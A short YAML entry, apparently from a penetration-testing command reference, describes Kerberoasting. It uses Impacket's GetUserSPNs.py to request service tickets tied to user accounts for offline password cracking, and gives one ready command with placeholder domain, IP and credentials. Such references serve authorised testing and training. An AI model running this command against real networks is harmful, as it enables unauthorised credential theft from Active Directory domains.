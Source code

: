 ```yaml
---
description: |
  Impacket's GetUserSPNs.py will attempt to fetch Service Principal Names that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account's password, which can then be bruteforced offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

items:
  Password:
    - code: |
        python3 GetUserSPNs.py test.local/john:password123 -dc-ip 10.10.10.1 -request
  Username:
    - code: |
        empty
filters:
  Kerberos:
    - code: |
        empty
  Linux:
    - code: |
        empty
  Windows:
    - code: |
        empty
---
```

